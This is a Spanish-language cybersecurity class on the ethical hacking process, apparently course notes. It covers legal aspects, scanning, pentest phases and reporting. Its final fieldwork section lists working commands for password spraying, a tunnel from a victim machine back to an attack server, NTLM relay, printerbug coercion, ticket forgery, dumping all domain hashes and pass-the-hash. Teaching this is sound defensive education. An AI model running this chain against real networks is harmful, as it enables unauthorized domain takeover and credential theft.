





# **Ciberseguridad - Clase 9**
## **Proceso de Ethical Hacking**
### **Motivación, Justificación e Importancia**
* Necesidad de conocer el nivel de seguridad que tiene un sistema, la red, la infraestructura u organización, mediante la identificación de puntos débiles de seguridad.
* Dar cumplimiento a regulaciones, normativas o disposiciones legales.
* Obtener parte de la información necesaria a efectos de alimentar un proceso de gestión de riesgos.
* La ejecución periódica de procesos de evaluación, debe ser vista como parte fundamental e imprescindible, de toda estrategia de seguridad.
* Peor que poseer un sistema con debilidades y/o vulnerabilidades, es el no conocer la existencia de las mismas.
* Evitar ser víctima de:
  * Robo de Información
  * Fraude
  * Acceso no autorizado
  * Hacktivism
  * DDoS
  * Malware
  * Piratería
  * Daño a la reputación de la organización
  * Etc...
  * Pone a prueba la CID de los sistemas, las personas, los procesos y la operatoria...

### **Una herramienta más...**
* Buscar vulnerabilidades que sean explotables por un atacante.
* No es una solución integral, sino una herramienta de seguridad más.
* Este tipo de procesos requieren ser combinados con otros y no ser practicados en forma aislada e independiente.
* Cuando son llevados a cabo como parte de un “proceso continuo” resultan ser el complemento ideal de toda estrategia seria de seguridad.

### **Comercialización de servicios**
* Cada vez son más las consultoras y especialistas freelance que ponen a disposición de sus clientes un amplio abanico de servicios.
* Por cuestiones de marketing o comerciales, es habitual observar que dichos servicios son nombrados de los modos más diversos.
* Como cliente, es de suma importancia solicitar explicaciones a nuestros proveedores en forma anticipada, respecto de cuales son las tareas involucradas del servicio provisto.
* Importancia del “Statement of Work”.

### **Contratación**
* Se debe tener **confianza a las personas responsables** de llevar adelante el proyecto.
* Quien brinde el servicio debe poseer una **imagen respetable y sólida en el mercado**, construida a base de experiencia y calidad respecto de sus especialistas.
* Quien brinde el servicio debe ser capaz de informar en detalle al cliente, acerca del **proceso y metodologías** que serán utilizadas en la tarea, garantizando que las buenas prácticas serán aplicadas a lo largo del mismo.

### **Tipos de Ethical Hacking según el dispositivo**
* a infraestructura (servers, routers, switches, WiFi, LiFi, inclusive dispositivos IoT...).
* a aplicaciones (Thick clients, web, cloud, etc...).
* a personas (Ingeniería social).
* a accesos físicos (Cerraduras, cajeros automáticos, RFID, etc...).
* a teléfonos (mobile, VoIP, bots, etc...).
* Autos, motos, consolas de videojuegos.
* Etc.

### **Aptitudes de un EHacker**
* Programación
* Redes
* Reversing
* Cracking
* Criptografía
* Seguridad ofensiva
* Lenguaje / Ingeniería social
* LockPicking
* Sistemas Operativos
* Protocolos
* Electrónica
* Negocio
* Reporting
* Manejar situaciones/reuniones difíciles
* Multitasking
* Certificaciones (CEH, OSCP, OSWE, OSCE, etc...)
* **Pasión**

### **Aspectos Legales**
* El realizar acciones intrusivas contra la red o sistemas de un cliente, podría ser visto como un delito grave de no contar con las autorizaciones correctas.
  * Imagine que pasaría si un agente de policía le sorprendiera intentando acceder a un Datacenter en medio de una evaluación de seguridad física? Probablemente sus explicaciones no sean tenidas en cuenta sino hasta después de que sea tarde...
* Posibilidad de que como parte de una evaluación, el analista de seguridad se tope con información de carácter “confidencial”, haciendo que el solo hecho de haber dado con ella, represente algún inconveniente legal en función de disposiciones tales como la ley de Habeas Data.

### **CVSS (Common Vulnerability Scoring System)**
* Otorga la forma de capturar las principales características de la vulnerabilidad.
* Generar un valor numérico que refleja la severidad de la vulnerabilidad.
* El valor numérico puede ser traducido de manera cualitativa como bajo, medio, alto o crítico para ayudar a las organizaciones a priorizar las vulnerabilidades.

### **Vulnerability Scanning**
* Proceso por el cual son llevadas a cabo comprobaciones automáticas de un sistema o sistemas dentro de una red, basadas en herramientas automáticas de escaneo de vulnerabilidades.
* Generalidades:
  * Carácter no intrusivo – Ámbito Interno y Externo.
  * Herramientas Automáticas.
  * Dependiendo de la maduración, las vulnerabilidades pueden ser recurrentes.

**Nessus Scanner**

### **Vulnerability Assessment**
* Un proceso de VA, incluye tareas de Vulnerability Scanning, pero junto al conjunto de comprobaciones automáticas en busca de vulnerabilidades, se suman verificaciones manuales con el objeto de eliminar falsos positivos y obtener resultados mas confiables.
* Generalidades:
  * Carácter no intrusivo – Ámbito Interno y Externo
  * Herramientas Automáticas + Verificaciones Manuales + Criterio Profesional
  * Suele incluir inteligencia profesional consistente en la verificación de falsos positivos, verificaciones manuales, criterio aplicado a las pruebas, elaboración de informes personalizados y construcción de un listado de tareas priorizadas.
* Objetivos VA
  * Alertar acerca de configuraciones incorrectas en sus firewalls, host y dispositivos de borde.
  * Relevar superficies de ataque.
  * Descubrir vulnerabilidades como resultado de cambios en la configuración.
  * Detectar la falta de parches y actualizaciones en los sistemas de la compañía.
  * Localizar debilidades y vulnerabilidades conocidas antes de que los atacantes lo hagan.

### **Penetration Test (pentest)**
* A diferencia de lo que sucede al realizar tareas de VA, en el marco de un “Penetration Test” o “Test de Intrusión Controlado” (Pentest), se intenta la explotación real de la debilidades o vulnerabilidades encontradas, a fin de confirmar su existencia, así como también la verdadera amenaza que su explotación podría representar en un entorno determinado.

### **Red Team Assessment**
* A diferencia de un Pentest, se intenta analizar las capacidades de monitoreo, detección y respuesta de una organización.
* Para realizar esto, se realizarán pruebas de cualquier tipo (ingeniería social, phishing, WLAN, explotación de vulnerabilidades, etc.) de la manera más sigilosamente posible y sin el conocimiento del resto del staff.

### **Tipos de pentest**

**Características**
* Llevados a la práctica por un grupo interdisciplinario de profesionales altamente calificado, conocedores de las técnicas y herramientas que los intrusos utilizan a la hora de atacar sistemas y redes.
* Poner en práctica el “Pensar Maliciosamente” respecto del objetivo.
* Marco ético y metodológico.
* Determinar que es lo que un intruso puede ver y/o hacer sobre el sistema o red objetivo y la información en este contenida.

**Objetivos**
* Obtener una fotografía del estado de la seguridad que la organización, sistema u host objetivo, ostenta en determinado momento.
* Comprobar si el nivel de protección existente coincide con la política de seguridad establecida por la organización.
* Visualizar la compañía desde el punto de vista del atacante, localizando debilidades, vulnerabilidades y puntos de acceso no autorizados, antes de que los atacantes lo hagan.
* Comprobar el verdadero impacto de las vulnerabilidades en su entorno particular.
* Demostrar que una intrusión es posible en su entorno particular.
* Comprobar la efectividad de sus medidas de protección, políticas y procesos de detección de intrusos y respuesta a incidentes.
* Comprobar el desenvolvimiento de su equipo de detección de intrusos.
* Comprobar el desenvolvimiento del equipo de respuesta a incidentes.

### **Pasos involucrados en el proceso de EH**

**Paso I: Reconocimiento**
* El reconocimiento es el primer paso llevado a cabo por cualquier intruso potencial (Fase Preparatoria). Tiene por objetivo, el recolectar la mayor cantidad posible de información acerca del TOE (Target of Evaluation)
* Pasivo: Involucra la adquisición de información sin interactuar directamente con el objetivo (Ejemplo: Búsqueda de información en sitios públicos).
* Activo: se encuentra relacionado con la interacción directa con el objetivo, cualquiera sea el modo, (Ejemplo: Ingeniería Social, navegación de recursos, etc).

**Paso II: Escaneo**
* Suele ser visto como el paso previo al ataque. En líneas generales, se aprovecha de la información obtenida durante la fase de reconocimiento, la cual es utilizada para examinar la red.
* Herramientas: Entre las herramientas que suelen ser utilizadas en este paso, se encuentran: Port Scanners, Scanners de Vulnerabilidades.

**Paso III: Obtención de Acceso**
* La fase de obtención de acceso, a menudo referida como fase de penetración, es aquella donde el ataque se materializa o dicho de otro modo el atacante explota una vulnerabilidad en el sistema.
* Algunas formas de obtener acceso pueden ser a través de fuerza bruta de contraseñas, robo de sesión, ingeniería social o la explotación de una vulnerabilidad sobre el sistema, red, dispositivo, etc.

**Paso IV: Mantenimiento de Acceso**
* Al llegar a este punto, el atacante ya ha comprometido el sistema e intentará afianzar su posición respecto de la apropiación y/o retención del objetivo atacado.
  * Instalación de rootkits y/o Troyanos.
  * Creación de backdoors y/o cuentas sobre el sistema.
  * Subir/Bajar y/o Manipular datos, aplicaciones y configuraciones del sistema del cual se apropiaron (Owned).
  * Extender su influencia a sistemas circundantes o en relación de confianza con el sistema inicialmente comprometido.

**Paso V: Eliminación de rastros**
* Este es el paso en el cual el atacante lleva a cabo una serie de tareas, con el fin de ocultar cada una de las acciones llevadas a cabo tanto al momento de ganar acceso al sistema objetivo, así como también respecto de su permanencia.
  * Manipulación / Eliminación de logs.
  * Razones: Evitar detección, eliminar evidencia de hack, evitar acciones legales, etc.

### **Cómo conducir un proceso de EH**
* Discutir con el cliente acerca de las necesidades.
* Preparar y hacer firmar un documento de autorizaciones legales.
* Preparar el equipo y establecer la planificación del proceso.
* Llevar adelante el proceso de evaluación.
* Analizar resultados y elaborar los reportes.
* Presentar los resultados al cliente.

### **Entregables**
* Informe (Ethical Hacking Report):
  * Marcado como Confidencial (NDA).
  * Contenido
    * Información General respecto del Tipo de Evaluación (Introducción, Alcance, etc.).
    * Resumen ejecutivo de alto nivel.
    * Índice General de Riesgos.
    * Detalle de cada una de las pruebas realizadas especificando su objetivo.
    * Resultados Obtenidos y Hallazgos.
    * Vulnerabilidades Identificadas.
    * Recomendaciones y Contramedidas Sugeridas.
    * Descripción de Herramientas y Técnicas Utilizadas.
    * Clasificación de los problemas de seguridad según su nivel de riesgo.
    * Toda aquella información que permita hacer de este test, uno que pueda ser repetible en el tiempo.

* Workshop (Técnico y Ejecutivo):
  * Presentación de los resultados obtenidos en el proceso de evaluación.
  * Asesoramiento respecto de las alternativas de solución respecto de los problemas encontrados.

### **Trabajo de campo - External Penetration test**
* OSINT
  * Búsqueda de información corporativa, mails, usuarios, passwords leaks, etc
    * Hunter IO (https://hunter.io)
    * Intelx (https://intelx.io)
    * Linkedint (https://github.com/vysecurity/LinkedInt)
    * Página corporativa
* NMAP Scan
  * Escanear la red de acuerdo a la información brindada por el cliente
    * ` nmap –Pn –n –sS --top-ports 1000 192.168.0.1/24 –oA /home/mmevied/nmap_result.txt `
* Password Spay
  * Metasploit (`use auxiliary/scanner/http/owa_login`)
  * Nmap (`nmap –d -p 636 –Pn –script ldap-brute –script-args userdb=users.txt,passdb=passwords.txt <Server IP>`)
* Application RCE

* Privilege escalation
  * Buscar nombres de los Domain Controllers (`nslookup server.com`)
  * Buscar nombre de los Domain Admin (`net group "Domain Admins“ /domain`)
  * Levantar un tunel para conectarse a la computadora comprometida
    * Se puede usar rpivot de manera cliente servidor y proxychains para ejecutar los commandos (https://github.com/klsecservices/rpivot)
    * Server de ataque: `python server.py --server-port 9999 –-server-ip 0.0.0.0 –proxy-ip 127.0.0.1`
    * Victima: `client.exe --server-ip <IP del server de ataque> --server-port 9999`
  * Crear una nueva computadora en el dominio con la opción “Delegate access”
    * `Proxychains python ntlmrelayx.py ldaps://<IP Domain Controller> --remove/mic –delegate-access –add-computer “NewPC” –smb2support`
  * Ejecutar printerbug
    * `proxychains python printerbug.py <domain>/<user>@<Domain controller> <Server de ataque>`
  * Solicitar Silver ticket
    * `Proxychains python getST.py –spn host/<Domain Controller> ‘<Domain>/<NewPC>:<NewPCPassword>’ --impersonate <Domain Admin account> -dc-ip <Domain Controller>`
  * Exportar hashes de todos los usuarios
    * `export KRB5CCNAME=<Domain Admin Account>.ccache`
    * `Proxychains Python secretdump.py –no-pass <Domain Controller> -just-dc-ntlm –dc-ip <Domain Controller IP>`
  * Pass the hash
    * `Proxychains ./wmiexec.py <Domain>/<Username>@<Domain Controller IP> -hashes <Domain Admin Hash>`